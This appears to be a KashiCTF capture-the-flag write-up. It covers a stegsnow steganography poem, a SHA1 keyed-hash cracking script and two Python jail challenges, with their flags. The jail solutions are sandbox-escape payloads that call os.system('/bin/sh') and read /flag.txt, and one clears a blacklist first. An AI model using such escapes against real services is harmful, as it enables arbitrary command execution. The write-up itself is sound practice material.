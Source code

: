 Pity, in place of love,
That pettiest of gifts,
Is but a sugar-coating over neglect.
Any passerby can make a gift of it
To a street beggar,
Only to forget the moment the first corner is turned.
I had not hoped for anything more that day.

You left during the last watch of night.
I had hoped you would say goodbye,
Just say ‘Adieu’ before going away,
What you had said another day,
What I shall never hear again.
In their place, just that one word,
Bound by the thin fabric of a little compassion
Would even that have been too much for you to bear?

When I first awoke from sleep
My heart fluttered with fear
Lest the time had been over.
I rushed out of bed.
The distant church clock chimed half past twelve
I sat waiting near the door of my room
Resting my head against it,
Facing the porch through which you would come out.
```
The poem that author give to player.
As the name of the challenge we use **stegsnow** tool.
![image](https://hackmd.io/_uploads/Hk1clqK9Jl.png)
![image](https://hackmd.io/_uploads/S1EcgqKqJg.png)
The password is his friend's name: Aakash
Then we get: https://pastebin.com/HVQfa14Z
![image](https://hackmd.io/_uploads/r1z1Z5t5Jl.png)
This is cow descript
![image](https://hackmd.io/_uploads/HyombqKqJg.png)
**Flag: KashiCTF{Love_Hurts_5734b5f}**

## Broken ?
```python=
import hashlib

SECRET_KEY = b'REDACTED'
#@ 01be4a249bed4886b93d380daba91eb4a0b1ee29
targetKey =  "01be4a249bed4886b93d380daba91eb4a0b1ee29"
def generate_hmac(message,secret):
    return hashlib.sha1(str(secret).encode() + message.encode()).hexdigest()
index=0
message = "count=10&lat=37.351&user_id=1&long=-119.827&file=flag.txt"
# brute force through word lists jwt.secret.keys 
print(generate_hmac(message,'super_secret_key'))
```
**Flag: KashiCTF{Close_Yet_Far_evhBM0QEu}**
## Easy Jail
```bash=
__import__('os').system('/bin/sh')
cat /flag.txt 
```
**Flag: KashiCTF{3V4L_41NT_54F3_jfLs92mb}**
## Easy Jail 2 
```bash
BLACKLIST.clear()
__import__('os').system('/bin/sh')
cat /flag.txt
```